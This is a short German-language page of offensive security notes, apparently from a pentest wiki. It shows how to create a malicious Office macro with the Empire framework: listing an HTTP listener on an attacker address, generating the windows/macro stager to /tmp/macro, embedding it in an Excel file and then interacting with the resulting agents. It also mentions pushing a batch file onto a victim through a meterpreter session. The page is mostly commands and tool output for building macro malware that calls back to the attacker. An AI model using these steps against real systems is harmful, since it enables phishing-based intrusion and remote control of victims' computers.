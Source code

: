 Diese Batchdatei muss auf das Opfersystem gebracht werden. Das geht über Metasploit in einer bereits etablierten meterpreter Session.



# Makrovirus erstellen

Mit Empire

```
(Empire) > listeners

[*] Active listeners:

  Name              Module          Host                                 Delay/Jitter   KillDate
  ----              ------          ----                                 ------------   --------
  http              http            http://192.168.126.2:80              5/0.0
```

```
(Empire: listeners) > usestager windows/macro http
(Empire: stager/windows/macro) > info

Name: Macro

Description:
  Generates an office macro for Empire, compatible
  with office 97-2003, and 2007 file types.

```

`http` ist der Name des listeners. Ausgabe auf stdout oder man setzt `OutFile`

```
(Empire: stager/windows/macro) > set OutFile /tmp/macro
(Empire: stager/windows/macro) > execute

[*] Stager output written out to: /tmp/macro

```

Excel Datei mit dem Makro erstellen. Siehe [Excel Backdoor Makro](excel_backdoor_makro)

Weiter mit:

```
agents
interact <Name>
info
```

![image-20210530155407057](fig/image-20210530155407057.png)
